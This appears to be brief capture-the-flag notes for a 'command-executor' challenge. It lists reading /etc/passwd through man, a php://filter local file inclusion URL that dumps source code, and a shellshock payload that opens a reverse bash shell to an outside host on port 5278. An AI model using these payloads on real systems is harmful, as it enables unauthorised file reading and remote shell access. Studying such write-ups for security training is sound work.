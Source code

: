 ## man

`man /etc/passwd`

can read file

## LFI

https://command-executor.eof-ctf.ais3.ntu.st/index.php?func=php://filter/convert.base64-encode/resource=index

can read source code

## shellshock payload:

`() { :a; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/kaibro.tw/5278 0>&1'`
